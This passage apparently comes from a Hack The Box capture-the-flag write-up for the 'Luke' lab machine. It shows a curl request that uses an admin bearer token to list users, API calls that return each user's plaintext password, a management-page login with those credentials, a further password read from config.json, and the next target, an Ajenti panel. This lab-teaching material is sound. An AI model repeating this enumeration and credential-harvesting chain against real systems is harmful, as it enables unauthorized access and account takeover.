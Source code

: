 On `GET /`, I now get `{"message":"Welcome admin ! "}`

`GET /users` shows a list of users:

```
curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDE3NjA1LCJleHAiOjE1Njg1MDQwMDV9.MXxjA5devINORQHlkRL17JH96uWO1VJIZMKZSDdf--U' http://10.10.10.137:3000/users
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

I can query each individual user with `GET /users/<username>` and it returns their password:

```
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

### Management page

I tried those credentials and found that I can log into the `/management` page with `Derry` (username is case sensitive)

![](/assets/images/htb-writeup-luke/management2.png)

`config.php` and `login.php` contain the source we already have but `config.json` contains another set of credentials:

![](/assets/images/htb-writeup-luke/config.png)

Password: `KpMasng6S5EtTy9Z`

I tried logging in as root by SSH but I wasn't able to.

### Ajenti

I have one port left to check on the system. The Ajenti server admin panel runs on port 8000

